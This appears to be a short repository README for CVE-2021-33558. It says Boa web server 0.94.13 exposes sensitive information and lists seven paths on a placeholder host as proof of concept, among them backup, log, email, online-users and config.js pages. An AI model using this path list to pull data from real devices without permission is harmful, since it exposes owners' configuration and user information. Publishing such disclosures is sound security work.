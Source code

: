 # CVE : CVE-2021-33558.
 Exploit code of CVE-2021-33558
 
# Summary

In Boa/0.94.13 there is various misconfiguration.it expose various senstive information.


# Proof of Concept

>> https://target.com/backup.html

>> https://target.com/preview.html

>> https://target.com/js/log.js

>> https://target.com/log.html

>> https://target.com/email.html

>> https://target.com/online-users.html

>> https://target.com/config.js
